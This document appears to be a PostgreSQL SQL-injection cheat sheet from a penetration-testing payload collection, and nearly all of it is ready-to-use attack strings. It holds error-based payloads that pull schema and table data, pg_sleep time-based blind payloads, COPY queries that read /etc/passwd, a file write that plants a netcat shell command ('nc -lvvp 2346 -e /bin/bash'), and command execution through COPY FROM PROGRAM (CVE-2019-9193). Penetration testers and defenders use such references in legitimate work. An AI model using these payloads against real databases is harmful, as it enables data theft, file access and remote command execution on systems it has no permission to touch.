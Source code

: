 # POSTGRESQL

## PostgreSQL Comments

```sql
--
/**/  
```

## PostgreSQL Error Based - Basic

```sql
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name=data_column+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)
```

## PostgreSQL Time Based

```sql
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

## PostgreSQL File Read

```sql
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```

NOTE: ``pg_read_file` doesn't accept the `/` character.

```sql
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```

## PostgreSQL File Write

```sql
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

## PostgreSQL - Command execution

CVE-2019–9193, can be used from [Metasploit](https://github.com/rapid7/metasploit-framework/pull/11598) if you have a direct access to the database, otherwise you need to execute manually the following SQL queries. 

```SQL
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```

![https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png](https://cdn-images-1.medium.com/max/1000/1*xy5graLstJ0KysUCmPMLrw.png)

## References

* [A Penetration Tester’s Guide to PostgreSQL - David Hayter](https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9)
* [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest - Mar 20 2019 - GreenWolf](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)